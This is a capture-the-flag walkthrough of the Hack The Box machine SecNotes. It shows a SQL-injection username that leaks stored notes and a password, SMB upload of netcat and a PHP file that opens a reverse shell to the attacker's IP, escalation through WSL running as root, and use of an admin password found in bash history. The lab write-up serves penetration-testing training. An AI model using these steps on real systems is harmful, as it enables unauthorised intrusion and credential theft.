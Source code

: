 ﻿### HTB SecNotes    10.10.10.97  

First things first, check nmap, always and forever.

```
(kali㉿kali)-$ sudo nmap -T4 -p- -Pn 10.10.10.97                                                     
[sudo] password for kali: 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-10-07 23:32 EDT
Nmap scan report for 10.10.10.97
Host is up (0.044s latency).
Not shown: 65532 filtered tcp ports (no-response)
PORT     STATE SERVICE
80/tcp   open  http
445/tcp  open  microsoft-ds
8808/tcp open  ssports-bcast

Nmap done: 1 IP address (1 host up) scanned in 94.61 seconds
```

Looks like we got 80, 445, and 8808.  I know what 80 and 445 are...but what's ssports-bcast on 8808.  Not sure, let's find out a bit more.

```
(kali㉿kali)-$ sudo nmap -p 8808 -A 10.10.10.97      
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-10-07 23:44 EDT
Nmap scan report for 10.10.10.97
Host is up (0.046s latency).

PORT     STATE SERVICE VERSION
8808/tcp open  http    Microsoft IIS httpd 10.0
|_http-title: IIS Windows
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|_  Potentially risky methods: TRACE
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows XP (85%)
OS CPE: cpe:/o:microsoft:windows_xp::sp3
Aggressive OS guesses: Microsoft Windows XP SP3 (85%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

TRACEROUTE (using port 8808/tcp)
HOP RTT      ADDRESS
1   47.55 ms 10.10.14.1
2   47.68 ms 10.10.10.97

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 22.06 seconds
```

Ok then.  Looks like another http port.  And we see (if we didn't know already) that this is a Windows machine.  At this point, I'm going to start poking at the webserver to see if I can find anything there.

Fire up the browser, go check it out and upon initial visit I get a login page.  Inputs, wonder if these are vulnerable to injection of any sort.

![No Account](/Images/HTB3SecNotes/pic1.png)

Doesn't look like it on the login page.  Lets create an account.

Create that with test username and get all logged in and looks like we have a note taking app.

![App View](/Images/HTB3SecNotes/pic2.png)

You can also see that we have a username.  Tyler.  Let's keep that in our backpocket for now.  Let's test the account creation page for any type of injection.

So, create an account named `'OR 1 OR'` and then sign in and now look what I get.

![Logged in](/Images/HTB3SecNotes/pic3.png)

And if I open these notes out, looks like I get a list of years, a recipie....and, what's this....a password?

![Tyler's password](/Images/HTB3SecNotes/pic4.png)

So far, interesting.  I think I've pretty much gotten admin on the webapp, even grabbed a password out along with a directory.

Before we move on, let's check to see what port 8808 was.

![Basic IIS Page](/Images/HTB3SecNotes/pic5.png)

Looks like just a basic IIS page.  Nothing too fancy.  So let's take our new found username and password and give that a go on the 445 port (SMB).

```
(kali㉿kali)-$ smbclient -U 'tyler' \\\\10.10.10.97\\new-site
Password for [WORKGROUP\tyler]:
Try "help" to get a list of possible commands.
smb: \> pwd
Current directory is \\10.10.10.97\new-site\
smb: \> ls
  .                                   D        0  Sun Aug 19 14:06:14 2018
  ..                                  D        0  Sun Aug 19 14:06:14 2018
  iisstart.htm                        A      696  Thu Jun 21 11:26:03 2018
  iisstart.png                        A    98757  Thu Jun 21 11:26:03 2018

                7736063 blocks of size 4096. 3394438 blocks available
smb: \> 

```

Looks like I'm working under the website pointed at by 8808.  And Tyler's password worked to get here.  So far not too bad.  Now to see if I can get myself a shell.  So I think here, since I already know the server handles php, we're gonna make that out.

First, let's get our php written out.  Here we're going to use php system() to call nc.exe (netcat) and execute (`-e`) cmd.exe to my IP over port 4444.

![php file](/Images/HTB3SecNotes/pic6.png)

Going to get my netcat listener started in a new terminal tab.

```
(kali㉿kali)-$ nc -nvlp 4444   
listening on [any] 4444 ...
```

Then we put our files to the server.

```
smb: \> put nc.exe
putting file nc.exe as \nc.exe (244.7 kb/s) (average 244.7 kb/s)
smb: \> put shell.php 
putting file shell.php as \shell.php (0.4 kb/s) (average 155.6 kb/s)
smb: \> ls
  .                                   D        0  Tue Oct  8 00:28:39 2024
  ..                                  D        0  Tue Oct  8 00:28:39 2024
  iisstart.htm                        A      696  Thu Jun 21 11:26:03 2018
  iisstart.png                        A    98757  Thu Jun 21 11:26:03 2018
  nc.exe                              A    59392  Tue Oct  8 00:28:32 2024
  shell.php                           A       54  Tue Oct  8 00:28:39 2024

                7736063 blocks of size 4096. 3394297 blocks available
```

Go back to the browser and go to 10.10.10.97:8808/shell.php and guess what.

```
(kali㉿kali)-$ nc -nvlp 4444   
listening on [any] 4444 ...
connect to [10.10.14.31] from (UNKNOWN) [10.10.10.97] 52009
Microsoft Windows [Version 10.0.17134.228]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\inetpub\new-site>
```

Ok, so now we have a shell.  So let's get some things figured out.  Run a quick `whoami` and find out that we are under the user tyler.

Since this is a Windows subsystem for linux, we're looking for wsl.exe.  After some research and checking payloadsallthethings, we do find a small section Windows Subsystem for Linux that talks about wsl.exe and bash.exe.  So we find it by the following

```
C:\inetpub\new-site>where /R c:\windows wsl.exe
where /R c:\windows wsl.exe
c:\Windows\WinSxS\amd64_microsoft-windows-lxss-wsl_31bf3856ad364e35_10.0.17134.1_none_686f10b5380a84cf\wsl.exe

C:\inetpub\new-site>where /R c:\windows bash.exe
where /R c:\windows bash.exe
c:\Windows\WinSxS\amd64_microsoft-windows-lxss-bash_31bf3856ad364e35_10.0.17134.1_none_251beae725bc7de5\bash.exe
```

Now that we have that info, we can check who the default user is for wsl.exe

```
C:\inetpub\new-site>c:\Windows\WinSxS\amd64_microsoft-windows-lxss-wsl_31bf3856ad364e35_10.0.17134.1_none_686f10b5380a84cf\wsl.exe whoami
c:\Windows\WinSxS\amd64_microsoft-windows-lxss-wsl_31bf3856ad364e35_10.0.17134.1_none_686f10b5380a84cf\wsl.exe whoami
root
```

Ahh, it's in root.  Very interesting.  So, let's try this.

```
C:\inetpub\new-site>c:\Windows\WinSxS\amd64_microsoft-windows-lxss-bash_31bf3856ad364e35_10.0.17134.1_none_251beae725bc7de5\bash.exe
c:\Windows\WinSxS\amd64_microsoft-windows-lxss-bash_31bf3856ad364e35_10.0.17134.1_none_251beae725bc7de5\bash.exe
mesg: ttyname failed: Inappropriate ioctl for device
```

Now we can get some more info gathing going on and even use python to get to a shell.

```
whoami
root
hostname
SECNOTES
uname -a
Linux SECNOTES 4.4.0-17134-Microsoft #137-Microsoft Thu Jun 14 18:46:00 PST 2018 x86_64 x86_64 x86_64 GNU/Linux
python3 -c "import pty;pty.spawn('/bin/bash')"
root@SECNOTES:~# whoami
whoami
root
```

And look at that, we're root.  In a linux subsystem.  Quick `ls -a` shows we have a bash history.  Let's give that a check.

![history](/Images/HTB3SecNotes/pic7.png)

And would you look at that, an admin password.  How nice of them to leave this in the history like that.

Well now that we have that, we win.  So open a new tab and give psexec.py a go and what do we get?

![Whoami](/Images/HTB3SecNotes/pic8.png)

And now we get the flag.  And another one taken down!!  That's how we do it.

![Root Flag boiiii](/Images/HTB3SecNotes/pic9.png)

Thanks for coming with me on this little adventure!!  More to come soon! :D